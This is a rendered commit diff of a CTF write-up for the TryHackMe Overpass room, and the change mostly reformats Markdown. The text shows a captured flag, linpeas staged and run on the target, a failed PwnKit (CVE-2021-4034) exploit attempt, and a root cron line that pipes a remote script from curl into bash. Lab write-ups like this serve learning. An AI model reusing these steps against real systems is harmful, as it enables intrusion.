

Before and after one commit to sudo-awk/CTF, a Markdown page: THM/overpass_.md, 2 parts joined by grey strips. Shown at 91% size. Rendered like a GitHub page; blank space fills up the shorter version.

````diff
--- a/THM/overpass_.md
+++ b/THM/overpass_.md
@@ -120,8 +120,11 @@ james@overpass-prod:~$ ls
 todo.txt  user.txt
 james@overpass-prod:~$ cat user.txt
 thm{65c1aaf000506e56996822c6281e6bf7}
-> yey we got the first flag
+```
 
+yey we got the first flag
+
+```
 james@overpass-prod:~$ cat todo.txt
 To Do:
 > Update Overpass' Encryption, Muirland has been complaining that it's not strong enough
@@ -135,17 +138,13 @@ james@overpass-prod:~$ [2023-02-09T00:43:11] Synchronising notes from Evernote.
 
 ### Privileged Escalation
 
+now I dont know what to do again, I was trying to check for any other clue but I dont get it..
+so I sent linpeas to enumerate the machinen on my kali box I shared my directory
 ```
-
->- now I dont know what to do again, I was trying to check for any other clue but I dont get it..
-so I sent linpeas to enumerate the machine
->- on my kali box I shared my directory
-
 └─$ sudo cp linpeas.sh /var/www/html
 [sudo] password for aaron:
 ┌──(aaron㉿kali)-[/opt]
 └─$ cd /var/www/html
-
 
 ┌──(aaron㉿kali)-[/var/www/html]
 └─$ systemctl status apache2
@@ -154,9 +153,9 @@ so I sent linpeas to enumerate the machine
      Active: inactive (dead)
 ┌──(aaron㉿kali)-[/var/www/html]
 └─$ systemctl start apache2
-
-> back to the remote machine
-
+```
+back to the victime machine
+```
 james@overpass-prod:~$ cd /root
 -bash: cd: /root: Permission denied
 
@@ -181,12 +180,15 @@ drwxrwxrwt  2 root  root      60 Feb  9 05:47 .
 drwxr-xr-x 18 root  root    3760 Feb  9 04:00 ..
 -rwxrwxr-x  1 james james 828087 Feb  9 05:46 linpeas.sh
 james@overpass-prod:/dev/shm$ ./linpeas.sh
+```
 
-> it seems it is vulnerable to pwnkit
+it seems it is vulnerable to pwnkit
+```
 ╔══════════╣ CVEs Check
 Vulnerable to CVE-2021-4034
-> back to my kali I downloaded the exploit
-
+```
+back to my kali I downloaded the CVE-2021-4034 exploit
+```
 james@overpass-prod:/dev/shm$ gcc hehe.c -o hoho
 james@overpass-prod:/dev/shm$ ls
 hehe.c  hoho  linpeas.sh
@@ -194,16 +196,14 @@ james@overpass-prod:/dev/shm$ ./hoho
 GLib: Cannot convert message: Could not open converter from “UTF-8” to “PWNKIT”
 Cannot run program pwnkit.so:.: No such file or directory
 james@overpass-prod:/dev/shm$
+```
+i cannot run the pwnkit so I decided to watch the write up of mr. john hammond
+so we found this vulnerability, it runs every minute
+```
+* * * * * root curl overpass.thm/downloads/src/buildscript.sh | bash
+```
 
-> i cannot run the pwnkit so I decided to watch the write up of mr. john hammond
-
-> so we found this vulnerability, it runs every minute
-
-* * * * * root curl overpass.thm/downloads/src/buildscript.sh | bash
-
->
-
-> back to my kali machine i
+back to my kali machine i
 
 
 
````
